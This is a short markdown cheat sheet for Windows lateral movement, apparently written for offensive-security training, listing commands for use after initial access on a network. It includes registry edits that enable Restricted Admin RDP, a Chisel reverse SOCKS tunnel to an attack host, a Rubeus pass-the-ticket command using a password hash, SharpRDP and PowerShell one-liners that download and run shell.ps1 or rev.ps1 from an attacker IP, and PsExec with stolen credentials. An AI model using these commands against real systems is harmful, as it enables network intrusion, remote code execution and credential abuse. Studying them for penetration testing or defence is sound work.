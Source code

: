 ## Windows Lateral Movement Introduction and Command Line cheatsheet.

> Lateral movement refers to the techniques we use to move through a network after gaining initial access. 
> By understanding lateral movement, attackers and defenders can better navigate and secure networks. 
> This knowledge allows defenders to implement more effective security measures and helps attackers identify and exploit weaknesses in network defenses, ultimately leading to a more robust and resilient security posture. 


### RDP Commands

- Open Remote Desktop Connection client (Windows)

	`C:\> mstsc.exe` 

- Open Remote Desktop Connection client in Restricted Admin mode 


	`C:\> mstsc.exe /restrictedAdmin` 

	

- Query, Disable, and Enable DisableRestrictedAdmin value in LSA settings. 

	
	```C:\> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD``` 
	

- Chisel Server & Client. 

	
	```$ ./chisel server --reverse --port 9999
	
	C:\> chisel.exe client "ATTACK HOST":"PORT" R:socks```
	

- Rubeus Pass the Ticket 

	```PS C:\> .\Rubeus.exe createnetonly /program:powershell.exe /show 
	
	PS C:\> .\Rubeus.exe asktgt /user:"USER" /rc4:"HASH" /domain:targetdomain.local /ptt``` 
	

- Execute Powershell command on Windows Server using SharpRDP

	
	```C:\> SharpRDP.exe computername=dc01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://"ATTACK-IP:PORT"/shell.ps1')" username=inlanefreight\"USER" password="PASS"

	PS C:\> IEX(IWR -Uri 'http://"ATTACK IP:PORT"/rev.ps1' -OutFile C:\>rev.ps1 -UseBasicParsing);C:\>rev.ps1``` 
	

### SMB Commands


- Execute command on remote server using PsExec

	`PS C:\> .\PsExec.exe \\DC01 -i -s -u INLANEFREIGHT\'USER' -p 'PASS' cmd`

